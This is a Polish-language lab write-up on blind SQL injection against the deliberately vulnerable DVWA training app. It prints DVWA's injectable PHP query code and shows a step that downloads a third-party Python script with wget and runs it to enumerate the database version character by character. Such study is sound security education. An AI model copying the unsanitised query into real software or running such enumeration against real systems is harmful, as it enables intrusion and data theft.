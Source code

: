 # SQLi (blind) - SQL injection (blind)
## Opis techniki
<blockquote> Ślepe wstrzyknięcie SQL jest identyczne z normalnym wstrzyknięciem SQL, z wyjątkiem tego, że gdy atakujący próbuje wykorzystać aplikację, zamiast otrzymać użyteczny komunikat o błędzie otrzymuje generyczną stronę określoną przez programistę. Sprawia to, że wykorzystanie ataku SQL Injection jest trudniejsze, ale nie niemożliwe. Atakujący nadal może wykraść dane, zadając serię pytań za pomocą instrukcji SQL i monitorując odpowiedź aplikacji internetowej (na przykład zwrócona prawidłowa wartość lub nagłówek 404).
</blockquote>

## DVWA labs

- [DVWA SQLi (blind) #1 - Low](#dvwa-sqli-blind-1---low)

Powtórzenie podanych przykładów wymaga zmiany adresu IP oraz tokenu sesji.

<br/>

## DVWA SQLi (blind) #1 - low
Cel: uzyskanie wersji bazy danych.

Interakcja z bazą danych pozwala na uzyskanie informacji o istnieniu danego rekordu:
![SQLI_blind_low_exists](https://github.com/Jswierczynsk/sandbox/assets/133172137/ff2a4b89-a33f-4530-a60e-0ddf0f52e712)

bądź jego braku:

![SQLI_blind_low_missing](https://github.com/Jswierczynsk/sandbox/assets/133172137/1078f6dd-c0e3-4c46-97d6-f20c169d7a5f)

Na poziomie niskim zapytanie SQL wykorzystuje surowe dane wejściowe, które są bezpośrednio kontrolowane przez atakującego. Jedyne co trzeba zrobić, to uciec z zapytania, a następnie wykonać dowolne zapytanie SQL.

#### Kod źródłowy `PHP` 

```php

<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
Do enumeracji kolejnych pozycji nazwy bazy danych wykorzystany został skrypt python przygotowany przez Crypto-Cat.

#### Komenda `bash` 

```bash
wget https://raw.githubusercontent.com/Crypto-Cat/CTF/main/web/DVWA/8-sqli.py
python3 8-sqli.py

[...]

[*] Found char(1): 5
[*] Found char(2): .
[*] Found char(3): 5
[*] Found char(4): .
[*] Found char(5): 6
[*] Found char(6): 1
[*] Found char(7): -
[*] Found char(8): 0
[*] Found char(9): u
[*] Found char(10): b
[*] Found char(11): u
[*] Found char(12): n
[*] Found char(13): t
[*] Found char(14): u
[*] Found char(15): 0
[*] Found char(16): .
[*] Found char(17): 1
[*] Found char(18): 4
[*] Found char(19): .
[*] Found char(20): 0
[*] Found char(21): 4
[*] Found char(22): .
[*] Found char(23): 1
[+] DB Version: 5.5.61-0ubuntu0.14.04.1
```

Otrzymaną wartość można wykorzystać do znalezienia znanych podatności bazy danych.
<br/>

<br/>
<br/>



<br/>
